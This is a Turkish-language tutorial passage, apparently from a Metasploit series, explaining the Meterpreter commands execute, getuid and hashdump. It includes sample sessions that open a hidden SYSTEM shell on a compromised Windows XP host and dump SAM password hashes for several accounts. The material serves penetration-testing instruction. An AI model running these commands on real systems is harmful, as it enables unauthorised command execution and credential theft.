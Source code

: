 

## execute



`execute` komutu, karşı tarafta bir komut çalıştırmanızı sağlar. Dikkat ederseniz, Meterpreter’in kendi komutları çalıştırılmamakta. Karşı tarafın komut istemcisinde bir komut çalıştırılmaktadır.


```bash
meterpreter **&gt;** execute -f cmd.exe -i -H
Process 38320 created.
Channel 1 created.
Microsoft Windows XP **[**Version 5.1.2600]
**(**C**)** Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32&gt;
```



## getuid



Karşı tarafta Meterpreter’in çalıştığı sistemin kullanıcı kimliğini görüntüler.


```bash
meterpreter **&gt;** getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter **&gt;**
```



## hashdump



`hashdump` komutu, karşı taraftaki bilgisayarın SAM veri tabanını ortaya çıkarır. Tabii ki önceki Veri tabanı yazımızda belirttiğimiz gibi Workspace kullanıyorsanız, `loot` tablosuna kayıt eder.


```bash
meterpreter **&gt;** run post/windows/gather/hashdump 

**[*********]** Obtaining the boot key...
**[*********]** Calculating the hboot key using SYSKEY 8528c78df7ff55040196a9b670f114b6...
**[*********]** Obtaining the user list and keys...
**[*********]** Decrypting user keys...
**[*********]** Dumping password hashes...

Administrator:500:b512c1f3a8c0e7241aa818381e4e751b:1891f4775f676d4d10c09c1225a5c0a3:::
dook:1004:81cbcef8a9af93bbaad3b435b51404ee:231cbdae13ed5abd30ac94ddeb3cf52d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:9cac9c4683494017a0f5cad22110dbdc:31dcf7f8f9a6b5f69b9fd01502e6261e:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:36547c5a8a3de7d422a026e51097ccc9:::
victim:1003:81cbcea8a9af93bbaad3b435b51404ee:561cbdae13ed5abd30aa94ddeb3cf52d:::
meterpreter **&gt;**
```
